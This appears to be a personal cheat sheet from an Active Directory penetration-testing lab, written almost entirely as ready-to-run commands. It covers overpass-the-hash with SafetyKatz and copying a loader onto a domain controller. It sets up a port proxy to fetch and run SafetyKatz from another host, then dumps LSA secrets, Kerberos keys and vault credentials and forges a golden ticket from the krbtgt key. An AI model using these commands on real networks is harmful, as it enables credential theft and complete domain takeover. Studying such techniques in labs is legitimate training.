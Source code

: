 
### **OVERPASS THE HASH**
*Using SafetyKatz*
```powershell
.\SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe" "exit"
```
Run invishell and look for other system access
```powershell
Find-PSRemotingLocalAdminAccess -Verbose
```

### **Extract Credentials**
Copy the loader on the dc and use the port forwarding technique to use mimikatz and extract all creds
```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```
```powershell
winrs -r:dcorp-dc cmd
```
```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.115
```
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```
```mimikatz
lsadump::lsa /patch
```

```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```
to check
```powershell
klist
```
### **Extract from credential vault**
```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

### **Using the secrets of krbtgt account, create a Golden ticket**
Just use BetterSafetyKatz
```powershell
> C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<NOME DOMINIO> /sid:<SID DC(lsa dump safetykatz> /aes256:<AES KRBTGT> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
